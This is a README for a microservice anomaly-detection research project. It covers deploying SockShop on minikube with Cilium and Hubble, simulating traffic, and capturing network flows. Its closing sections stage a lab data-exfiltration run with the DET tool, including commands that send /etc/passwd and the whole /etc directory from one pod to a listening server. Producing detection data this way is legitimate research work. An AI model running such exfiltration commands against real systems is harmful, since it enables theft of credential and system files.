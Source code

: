 # Microservice Anomaly Detection
Brian: I want this repository to become the central repository for all things microservice related.
It is a mess and we need to cleanup the whole repository

## Deploying SockShop
1. Optional: Install minikube
2. Optional: Set minikube config to have enough memory and cpu (sets default)
   1. `minikube config set memory 16384`
   2. `minikube config set cpus 10`
3. Optional: If you want to use cilium install cilium `bash install_cilium.sh`
4. Create a profile for your cluster: `minikube profile CLUSTER_NAME`
5. Start minikube: 
   1. Without cilium: `minikube start -p CLUSTER_NAME --memory 8192 --cpus 5`
   2. If using cilium (cilium must be installed): `minikube start --cni=cilium -p CLUSTER_NAME --memory 8192 --cpus 5`
6. Deploy SockShop: `bash deploy_sockshop.sh`

Check status of pods: `kubectl get pods --namespace sock-shop`

Get IP of front-end service: `minikube service --profile CLUSTER_NAME --url front-end -n sock-shop` 

Test if it is working `curl http://192.168.49.2:30001` or go to link in browser

## Debugging cilium connectivity 
1. Follow the guide for first time : https://kubernetes.io/docs/tasks/administer-cluster/network-policy-provider/cilium-network-policy/
2. Use https://docs.cilium.io/en/stable/gettingstarted/k8s-install-default/ to run tests : cilium connectivity test and cilium status --wait to verify outputs match.

## Simulating Traffic on SockShop
1. cd into `experiment_coordinator`
2. Setup a conda environment: `conda env create -f condaEnv.yml`
3. Cd into `traffic_simulation`
4. Activate conda env: `conda activate sockShop`
If you need to populate the database full of users: `python simulate_traffic.py -p`
4. Simulate traffic: `python simulate_traffic.py -t`

## Collecting Data with Cilium
1. To deploy cilium: `bash deploy_cilium.sh`
2. Test if its working: `cilium connectivity test`
3. Check if hubble is collecting flows : `hubble status`
4. To start collecting `hubble observe -n sock-shop -o json`

Cilium Documentation: https://docs.cilium.io/en/stable/gettingstarted/

## Todo
1. Cleanup Repository
2. Fix Cilium data collection
3. Run data exfiltration attack

## Deployment Instruction [Kirtan]
1. Start minikube: `minikube start --network-plugin=cni -p CLUSTER_NAME`
2. Enable cilium on minikube : `cilium install`
3. Verify cilium is enabled : `cilium status`
4. If you are running for the first time, verify cilium connectivity:`cilium connectivity test` : It takes couple of minutes for this to execute.
5. Enable hubble on cilium : `cilium hubble enable`
6. Enable port forwarding : `cilium hubble port-forward&`
7. Check if hubble is collecting flows : `hubble status`
8. Deploy SockShop: `bash deploy_sockshop.sh`

## DET tool setup
There are 2 containers: users-db and catalogue-db which allows installing dependencies needed by allowing apt-install and updates.
Hence, our goal is to make one of them our DET server i.e. one sending data and other one as client i.e. receiving data.

In order to do that, we first create an additional service on a new port of container users-db as container does not allow
us to run service on a new port once its turned on. Hence,  bash deploy_sockshop_with_det.sh will deploy
sockshop_modified_full_cluster_with_det.yaml which is same as deploy_sockshop_modified_full_cluster.yaml with a new port
added to users_db 27018  LOC :809 as well as a new Service user-db-det: LOC 844.

Here, we will use users_db as our server and catalogue_db as our client.


### Deploy Sock-shop with DET
1. run `bash deploy_sockshop_with_det.sh`

Once the sock-shop completes deployment,
### Getting needed metadata of user-db and catalogue-db pods
1. Get pod ids of users-db and catalogue-db from : `kubectl get pods  -n sock-shop` 
2. Get IP address of user-db-det from : `kubectl get services -o wide -n sock-shop`

### Preparing User-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty user-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install python`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt    

### Preparing Catalogue-db for DET
1. SSH into users_db using `kubectl exec --stdin --tty catalogue-db-XXXXXXX  --namespace sock-shop -- /bin/bash`
2. For simplehttpserver communication, run following commands:
   1. `apt-get -o Acquire::ForceIPv4=true update`
   2. `apt-get --force-yes -y -o Acquire::ForceIPv4=true install curl wget`
3. For DET, run all the commands given in the file det_dependencies_to_install.txt   

### Annotating pods for datacollection
1. Annotate user-db pod for cilium data collection: `kubectl annotate pod user-db-XXXX -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`
2. Annotate catalogue-db pod for cilium data collection: `kubectl annotate pod catalogue-db-XXXXx -n sock-shop io.cilium.proxy-visibility="<Egress/27018/TCP/HTTP>,<Ingress/27018/TCP/HTTP>"`


### Turn on hubble data collection
1. Run this command to observe http traffic between server and client and write it to file : `hubble observe  --follow --protocol http -o json > det_data.txt`
2. Run this command to observe http traffic between server and client in command line : ` hubble observe  --follow --protocol http -o json `

### SimpleHTTPPythonServer DET
1. On users-db, start the python server on port 27018 : `python -m SimpleHTTPServer 27018`
2. Get IP Address of the service using `kubectl get services -o wide -n sock-shop` and looking for ip of `user-db-det` in the list.
3. On catalogue-db use wget/curl to retrieve files : `curl 10.103.13.14:27018/bin/sh` or `wget 10.103.13.14:27018/bin/bash`
4. Observe traffic in hubble

### DET using PaulSec/DET tool
Assuming you have installed all the commands in the det_dependencies_to_install.txt on both the catalogue-db and user-db, follow the next steps:
1. Install vim to edit config files for det on both the pods using : `apt-get update`; `apt search vim`; `apt-get install vim`
2. On user-db, 
   1. Open config-server.json and replace http port with 27018 on Line 5 and save the file
   2. Then start the DET server using following command : `python det.py -L -c ./config-server.json -p http`
3. On catalogue-db,
   1. Open config-client.json and replace http port with 27018 on Line 5 and replace IP address with whatever IP you got for user db in metadata colleciton.
   2. After that run the following command to retrieve file that you wish to retrieve: 
      1. For File : `python det.py -c ./config-client.json -p http -f /etc/passwd`
      2. For Directory with multithreading : `python det.py -c ./config-client.json -p http -d /etc/`
   3. You can also configure max_time_sleep, min_time_sleep,max_bytes_read, min_bytes_read in the config files of both server and client


